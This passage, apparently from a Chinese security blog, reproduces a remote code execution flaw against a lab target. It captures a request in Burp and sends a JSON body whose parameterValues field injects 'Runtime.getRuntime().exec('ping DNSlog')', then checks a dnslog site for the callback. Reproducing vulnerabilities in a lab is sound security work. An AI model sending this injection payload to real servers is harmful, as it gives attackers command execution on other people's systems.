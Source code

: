 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqxHz67MNbZRJeo3icSBSBciaRol2XIjPlRWhoa2PyMjyvNlMoiaibJj1403g/640?wx_fmt=png) 

****0x04 漏洞复现**** 

1、打开靶场首页，使用 burp 进行抓包，发送到 Repeater 模块构造数据包

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqxfFA0wc38nqdfHZVfu0sibvymFxppIZkNQ0updAqG18ATbvFNMAheNwA/640?wx_fmt=png) 

2、将 GET 包改为 POST，删除多余的字段，保留 Host、User-Agent 和 Content-Length 字段，然后添加以下数据，在 dnslog 添加成自己的地址，然后发送

| 

{

    "filters": [

        {

            "id": "boom",

            "filters": [

                {

                    "condition": {

                         "parameterValues": {

                            "":"script::Runtime r = Runtime.getRuntime(); r.exec('ping DNSlog');"

                        },

                        "type": "profilePropertyCondition"

                    }

                }

            ]

        }

    ],

    "sessionId": "boom"

}

 |

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqxLiaHL0ep6A2hkFB3IvNlNZfOhhodIlo3qsO7B9YE4kecOEPFwuh7S0A/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqx7z8RMstRDqF8btSkVT9Raib94UibOvuBJbzBt8wSLOoiaVPx3K3HI0ibxA/640?wx_fmt=png) 

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqxiboZmM6p0DEEkjYuAyqay4Tp9mwnhXyeLzUibFqRXfI85w63hXjnclow/640?wx_fmt=png)

3、在 dnslog 网站上刷新查看是否有数据，可以看到有数据

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqx2N840kAgtB5LYWgn3PEGfd0RVYdnIPlUJy5mrkUNj0GdiarCJR3dsibw/640?wx_fmt=png) 
